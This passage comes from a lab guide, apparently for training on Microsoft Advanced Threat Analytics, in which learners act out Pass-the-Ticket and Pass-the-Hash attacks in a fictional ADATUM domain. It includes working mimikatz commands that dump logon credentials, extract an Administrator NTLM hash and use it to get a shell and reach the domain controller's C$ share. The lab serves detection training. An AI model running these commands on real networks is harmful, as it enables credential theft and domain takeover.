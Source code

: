 27.   To validate that the **Pass-the-Ticket** exploit was successful, from the **Administrator: Command Prompt** window, run the following:

```
klist
```

28.   Verify that the output includes the ticket of the **ADATUM\\Administrator** account. Another way to validate the outcome of the exploit is to enumerate content of the default administrative share on the domain controller LON-DC1. To accomplish this, from the **Administrator: Command Prompt** window, run the following:

```
dir \\lon-dc1.adatum.com\c$
```

29.   Ensure that the command returns the listing of the content of the C: drive on LON-DC1.

  > **Note:** ATA postpones generation of the Identity theft using pass-the-ticket attack alert so you will not be able to observe it in this lab. This delay is intended to lower the false positive rate of the Pass-the-Ticket alerts. 


#### Task 5: Carrying out an Pass-the-Hash exploit

1.   On LON-CL1, while signed on as **ADATUM\\Ida**, from the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > task5.txt
```

2.   From the **Administrator: Command Prompt** window, run the following:

```
notepad task5.txt
```

3.   Review the content of the file in Notepad and note the entries corresponding to the **ADATUM\\Administrator** account. While they do not include the clear text password (that entry should be null), they do contain the NTLM hash. Copy the value of the hash into Clipboard. 
4.   From the **Administrator: Command Prompt** window, run the following as a single command (make sure to replace the placeholder `<hash_value>` with the value of the NTLM hash you copied into Clipboard):

```
Mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /ntlm:<hash_value> /domain:adatum.com" "exit"
```

5.   This will open a new Command Prompt window. From the newly opened Command Prompt window, run the following:

```
whoami
```

6.   Note that you are still operating as the **ADATUM\\Ida**. Now, in the same Command Prompt window, run the following:

```
dir \\lon-dc1.adatum.com\c$
```
